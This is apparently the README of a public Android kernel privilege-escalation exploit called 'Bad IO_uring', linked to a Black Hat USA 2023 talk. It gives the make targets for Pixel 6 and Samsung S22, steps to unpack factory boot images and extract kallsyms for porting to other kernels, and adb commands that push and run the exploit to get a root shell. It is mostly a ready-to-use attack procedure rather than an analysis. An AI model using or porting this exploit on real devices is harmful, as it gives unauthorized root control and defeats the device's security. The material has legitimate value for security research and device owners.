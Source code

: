 # Bad IO_uring

https://www.blackhat.com/us-23/briefings/schedule/index.html#bad-io_uring-a-new-era-of-rooting-for-android-32243

## Build the exploit

Make sure the [Android NDK](https://developer.android.com/ndk) is installed. For pixel 6,
```bash
make pixel
```

For samsung s22,
```bash
make s22
```

## How to use the exploit
The exploit is written to support different versions of kernels. In order to port the exploit to a different kernel, you need to extract the symbol file of the target kernel.

The kernel could be extract from the factory image of the phone. For Pixels, download the factory image [here](https://developers.google.com/android/images).

After downloading the image, extract the image to get `boot.img` file. `boot.img` can be extracted with `tools/unpack_bootimg.py`.
```bash
python3 tools/unpack_bootimg.py --boot_img boot.img --out out
```
You will see the kernel at `out/kernel`


Now, with the kernel image, we can use [vmlinux-to-elf](https://github.com/marin-m/vmlinux-to-elf) to extract kernel symbols from it.
```
./tools/vmlinux-to-elf/kallsyms-finder out/kernel > pixel.kallsyms
```

You have to make sure the `Version string` extracted in the symbol matches your phone's kernel version. The kernel version of the phone could be looked up through `adb`. For example,

```
sh-3.2$ adb shell
oriole:/ $ uname -a
Linux localhost 5.10.66-android12-9-00007-g66c74c58ab38-ab8262750 #1 SMP PREEMPT Mon Mar 7 01:27:36 UTC 2022 aarch64
```
matches 
```
[+] Version string: Linux version 5.10.66-android12-9-00007-g66c74c58ab38-ab8262750 (build-user@build-host) (Android (7284624, based on r416183b) clang version 12.0.5 (https://android.googlesource.com/toolchain/llvm-project c935d99d7cf2016289302412d708641d52d2f7ee), LLD 12.0.5 (/buildbot/src/android/llvm-toolchain/out/llvm-project/lld c935d99d7cf2016289302412d708641d52d2f7ee)) #1 SMP PREEMPT Mon Mar 7 01:27:36 UTC 2022
```

Now you can push the exploit and the symbol file to the phone and get it rooted with the following commands.

```bash
make
adb push exp pixel.kallsyms /data/local/tmp
adb shell
cd /data/local/tmp
./exp pixel.kallsyms
```

Enjoy your root shell :)

